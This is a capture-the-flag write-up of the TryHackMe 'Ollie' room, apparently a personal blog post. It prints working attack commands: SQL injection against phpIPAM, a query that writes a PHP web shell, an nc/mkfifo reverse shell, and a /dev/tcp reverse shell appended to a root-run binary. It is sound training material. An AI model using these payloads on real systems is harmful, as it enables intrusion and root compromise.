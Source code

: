 ```yaml
---
title: Ollie - Writeup
author: Elman Alizadeh
date: 2022-04-18 14:10:00 +0800
categories: [ctf, TryHackMe]
tags: [tryhackme, ollie]
---
```


Today we will take a look at TryHackMe: Ollie. My goal in sharing this writeup is to show you the way if you are in trouble. Please try to understand each step and take notes.

![Desktop View]({{ "/assets/img/thm-ollie/1.jpeg" | relative_url }})

## Network scan

Command: sudo nmap -sT -p- -T5 -vv -oN nmap/all_ports 10.10.86.146

![Desktop View]({{ "/assets/img/thm-ollie/2.png" | relative_url }})

## 1337 port Enumeration

Command: nc IP 1337

Yes, this is a simple chat correspondence. In the end, we get the necessary credential

![Desktop View]({{ "/assets/img/thm-ollie/3.png" | relative_url }})

I tried to log in to Ollie with SSH, but it didn’t work.

Let’s take a look at the website now.

![Desktop View]({{ "/assets/img/thm-ollie/4.png" | relative_url }})

It is a simple login page. Let’s enter with the credential we have.

## Sql injection

I did research on phpIPAM. And it turned out that version 1.4.4 has a vulnerability to sql injection.

Let’s check here

Go to the Routing section

![Desktop View]({{ "/assets/img/thm-ollie/5.png" | relative_url }})

Go to the example in the Peer Name section. Click the Actions button and select Subnet mapping

![Desktop View]({{ "/assets/img/thm-ollie/6.png" | relative_url }})

Now let’s check the vulnerability.

[Exploit](https://fluidattacks.com/advisories/mercury/)

Command: “union select @@version,2,user(),4 — -

![Desktop View]({{ "/assets/img/thm-ollie/7.png" | relative_url }})

It works. Now let’s create rce

[RCE](https://kayran.io/blog/web-vulnerabilities/sqli-to-rce/)

Command: “ union select null,null,null,”<?php system($_GET[‘cmd’]); ?>” into outfile “/var/www/html/backdoor.php” — -

![Desktop View]({{ "/assets/img/thm-ollie/8.png" | relative_url }})

Reverse shell weed. But keep in mind that you need to encode the url as you type in the url section.

Command: rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP 4242 >/tmp/f

[Url_encode](https://www.urlencoder.org/)

```console
rm%20-f%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%20IP%204242%20%3E%2Ftmp%2Ff%0A
```

As soon as I received the reverse shell, I changed the user using the previous data.

![Desktop View]({{ "/assets/img/thm-ollie/9.png" | relative_url }})

## Privilege Escalation

Command: find / -group ollie 2>/dev/null

There are some interesting results. But this was the most interesting.

![Desktop View]({{ "/assets/img/thm-ollie/10.png" | relative_url }})

After checking it, I saw that it works as root, and I used it to enter the reverse shell command.

Command: echo ‘bash -i >& /dev/tcp/IP/4444 0>&1’ >> /usr/bin/feedme

![Desktop View]({{ "/assets/img/thm-ollie/11.png" | relative_url }})

![Desktop View]({{ "/assets/img/thm-ollie/12.png" | relative_url }})

## And now we are the root

![Desktop View]({{ "/assets/img/thm-ollie/1.gif" | relative_url }})

“If you have any questions or comments, please do not hesitate to write. Have a good days”













